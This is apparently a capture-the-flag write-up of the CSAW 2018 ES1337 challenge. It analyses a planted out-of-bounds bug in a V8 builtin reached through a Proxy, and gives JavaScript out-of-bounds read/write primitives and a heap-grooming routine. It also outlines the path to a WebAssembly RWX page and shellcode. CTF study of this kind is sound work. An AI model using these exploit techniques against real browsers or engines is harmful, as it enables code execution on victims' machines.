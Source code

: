 ```yaml
---
layout: post
title:  "CSAW 2018 Final ES1337"
date:   2019-08-01 00:00:00 +0000
categories: jekyll update
---
```


## 0x00 Overview

In [this challenge](https://github.com/osirislab/CSAW-CTF-2018-Finals/tree/master/pwn/ES1337), a new native function `Array.prototype.replaceIf` has been implemented, which is used to replace the element of given index with a new value if the callback function returns true. In C++ implementation of this function, when given receiver(`this` argument) is a `Proxy`, it would optimize and fetch the array target inside the proxy to access the element, but will still use the length obtained from `Proxy`, which can cause out-of-bound access. We can use the OOB to leak the address of web assembly RWX page, rewrite the `kBackingOffset` of `ArrayBuffer`, and write shellcode to execute arbitrary code.

## 0x01 Usage

The new native function can be used as below.

```javascript
// array.replaceIf(idx, callback, newValue)
d8> a = [1,2,3]
[1, 2, 3]
d8> a.replaceIf(1, (e)=>e===1, 1337)
false
d8> a
[1, 2, 3]
d8> a.replaceIf(1, (e)=>e===2, 1337)
true
d8> a
[1, 1337, 3]
```

## 0x02 Implementation

The implementation of the new function can be found in [csaw.patch](https://github.com/osirislab/CSAW-CTF-2018-Finals/blob/master/pwn/ES1337/csaw.patch).

```c++
BUILTIN(ArrayReplaceIf) {
  HandleScope scope(isolate);

  // There must be at least 4 arguments
  // including `this` argument
  if (args.length() < 4)
    return isolate->heap()->ToBoolean(false);
  

  // 1. Let O be ? ToObject(this value).
  // args.receiver() is the `this` argument
  // this loads the `this` argument to `receiver`
  Handle<JSReceiver> receiver;
  ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
      isolate, receiver,
      Object::ToObject(isolate, args.receiver(), "Array.prototype.replaceIf"));

  // 2. Let len be ? ToLength(? Get(O, "length")).
  // this loads array length to `raw_length_number`
  // note that `receiver` here can be any object including Proxy
  // which means the length here is controllable
  int length;
  Handle<Object> raw_length_number;
  ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
      isolate, raw_length_number,
      Object::GetLengthFromArrayLike(isolate, receiver));

  // convert the length to C++ `int` primitive
  if (!ClampedToInteger(isolate, *raw_length_number, &length))
    return isolate->heap()->ToBoolean(false);

  // 3. Let index be ? ToInteger(arg[1])
  // args[1] is `idx` argument
  // convert the index to C++ `int` primitive
  int index;
  if (!ClampedToInteger(isolate, args[1], &index))
    return isolate->heap()->ToBoolean(false);

  // 4. Ensure index is less than length
  // if the length comes from Proxy 
  // and is larger than real array length
  // we can bypass this check even if `index >= real length`
  if (index >= length)
    return isolate->heap()->ToBoolean(false);

  // 5. Ensure arg[2] is callable
  // args[2] is `callback` argument
  if (!args[2]->IsCallable())
    return isolate->heap()->ToBoolean(false);

  // convert `callback` to Handle
  Object* func_obj = args[2];
  Handle<Object> func(&func_obj);

  // 6. If IsProxy(O), let A be ToProxy(O).target(), else let A be O
  // This is done for performance reasons. Proxied arrays would normally
  // take the slow path, we bypass this to take the fast path
  // this is problematic, 
  // because array length obtained comes from Proxy
  // instead of the array target inside this Proxy
  // which does not have to be same as the real array length
  Handle<JSReceiver> array_object;
  if (receiver->IsJSProxy()) {
    Handle<JSProxy> proxy = Handle<JSProxy>::cast(receiver);
    Handle<JSReceiver> obj(JSReceiver::cast(proxy->target()), isolate);
    array_object = obj;
  } else {
    array_object = receiver;
  }

  // 7. Check if fast path can be taken
  // this will be true if `array_object` is a normal array like [1.1]
  bool fast = EnsureJSArrayWithWritableFastElements(isolate, array_object, nullptr, 0, 0);

  // 8. Let E be ? Get(A, index)
  Handle<Object> element;
  if (fast) {
    // Fast path (packed elements)
    Handle<JSArray> array = Handle<JSArray>::cast(array_object);
    ElementsAccessor* accessor = array->GetElementsAccessor();
    element = accessor->Get(array, index);
    // OOB read here if index>=length, 
    // which can be resulted through manipulating Proxy
  } else {
    // Slow path, not related to vulnerability
    Handle<String> index_str = isolate->factory()->NumberToString(
        isolate->factory()->NewNumber(index));

    ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
        isolate, element,
        Object::GetPropertyOrElement(isolate, array_object, index_str));
  }

  // 9. Let S be ? arg[2](E)
  // call the callback function 
  // using the retrieved element as argument
  // and assign the return value to raw_should_replace 
  Handle<Object> argv[] = {element};
  Handle<Object> raw_should_replace;
  ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
    isolate, raw_should_replace,
    Execution::Call(isolate, func, receiver, 1, argv));

  // convert `raw_should_replace` to 
  // `should_replace` C++ `bool` primitive
  bool should_replace = raw_should_replace->BooleanValue(isolate);

  // 10. If !S, return false
  if (!should_replace)
      return isolate->heap()->ToBoolean(false);

  // 11. Let len be ? ToLength(? Get(O, "length")).
  // We check again to account for changes during the jscall
  // obtain the length again, 
  // which is same as the previous one
  // thus the length obtained can still come from Proxy
  ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
      isolate, raw_length_number,
      Object::GetLengthFromArrayLike(isolate, receiver));

  if (!ClampedToInteger(isolate, *raw_length_number, &length))
    return isolate->heap()->ToBoolean(false);

  // 12. Ensure index is less than length
  // still can be bypassed, for the same reason
  if (index >= length)
    return isolate->heap()->ToBoolean(false);

  // 13. Check if fast path can be taken
  // We check again to account for changes during the jscall
  fast = EnsureJSArrayWithWritableFastElements(isolate, array_object, nullptr, 0, 0);

  // 14. Set(O, index, arg[3])
  if (fast) {
    // Fast path (packed elements)
    Handle<JSArray> array = Handle<JSArray>::cast(array_object);
    ElementsAccessor* accessor = array->GetElementsAccessor();
    accessor->Set(array, index, args[3]);
    // therefore, for the same reason, here is an OOB write
  } else {
    // Slow path
    Handle<String> index_str = isolate->factory()->NumberToString(
        isolate->factory()->NewNumber(index));
    Handle<Object> new_obj(&args[3]);
    RETURN_FAILURE_ON_EXCEPTION(
        isolate,
        Object::SetPropertyOrElement(isolate, array_object, index_str, new_obj, LanguageMode::kStrict));
  }

  return isolate->heap()->ToBoolean(true);
}
```

## 0x03 Exploitation

Understanding the vulnerability, we can write the `oobRead` and `oobWrite` function.

```javascript
const handler1 = {
	get: function(target, prop, receiver)
	{
		if (prop === 'length') {
			return 0x1000;
		} else {
			return target[prop];
		}
	}
};
var a = [1.1];
var p = new Proxy(a, handler1);
function oobRead(idx)
{
	var ret;
	Array.prototype.replaceIf.call(p, idx,
		function(element){ret=element;return false;}, 1);
	// the element passed into callback function
	// will be an OOB read
	return ret;
}
function oobWrite(idx, val)
{
	Array.prototype.replaceIf.call(p, idx, ()=>true, u2d(val));
	// let callback return true,
	// so `val` will be written to float64 array
}
```

Then we need to try to leak the RWX page address of web assembly and write shellcode on it. The idea is to allocate `ArrayBuffer` and `Object` instances just after the array so that the OOB can access fields in these instances.

```javascript
const arrs = [];
const abs = [];
var a = [1.1];
// the array used for OOB accessing
dp(a);

for (var i = 0; i < 0x10; i++)
{
	abs.push(new ArrayBuffer(0x100+i));
	// size can be used to identify the index
	arrs.push({a:0xdead, b:0xbeef, d:wmain})
}
// allocate ArrayBuffer and Objects just after [1.1]
```

Then we can leak address of `wmain` by looking for `0xdead00000000` and `0xbeef00000000`, and rewrite `kBackingOffset` field in `ArrayBuffer` to achieve arbitrary memory read and write. The full exploit is [here](https://github.com/Mem2019/Mem2019.github.io/blob/master/codes/es1337.js).

